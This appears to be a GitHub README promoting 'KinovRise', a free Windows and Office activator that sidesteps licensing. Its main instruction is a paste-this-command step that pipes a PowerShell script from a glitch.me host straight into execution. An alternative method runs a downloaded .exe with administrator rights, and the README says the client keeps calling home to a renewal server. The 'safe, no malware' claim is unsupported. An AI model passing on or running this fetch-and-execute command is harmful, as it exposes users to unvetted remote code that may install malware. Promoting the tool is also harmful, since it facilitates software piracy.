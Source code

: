 <p align="center">
	<a href="https://imgbb.com/"><img src="https://i.ibb.co/jPK6tNxy/logo.png" alt="logo" border="0"></a>
</p>
<h1 align="center">KinovRise Activator </h1>
<p align="center">KinovRise is our project that helps you activate Windows and Office as quickly as possible, for free, for multi-computer activation, easy to use , safe , no malware.</p>
<img alt=”Project's website” src=”https://img.shields.io/badge/react-%2320232a.svg?style=for-the-badge&logo=react&logoColor=%2361DAFB"/>
<hr>
  
## How to Activate Windows / Office?

### Fastest - Powershell

1.   **Open PowerShell**  
	To do that, press the Windows key + X, then select PowerShell or Terminal.

2.   **Copy and paste the code below, then press enter.**  
```
irm "https://kra-activated.glitch.me/kinovrise.ps1" | iex
```
### Use KinovRise.exe

If you cannot do method 1 as above, then we come to method 2: use KinovRise.exe, download it from the Release section, then run with administrator rights and activate as usual.

### Note !!

Note: The license will be renewed for 180 days when the user activates, then it will be renewed by the client connecting to the KinovRise server. If after 180 days the system does not renew, the user will reactivate to use! If the license activation fails, the user will use the Troubleshooter to Active Windows with the KinovRise license. Thank you!

### Support and Unsupported : 
[Check here](https://ranusteam41.github.io/ranusteam.github.io/supported_unsupported)
### Testing KinovRise
https://github.com/user-attachments/assets/d83c4b99-fc67-4dcb-9055-2bf88ecb538b
### Credits 
Project creator: TivinovDEv (https://github.com/TivinovDEv)
- Support: ranusTeam41
- If you have the heart, please help the software to develop and become more popular!
Information at:



<p align="center">Made with love ❤️</p>
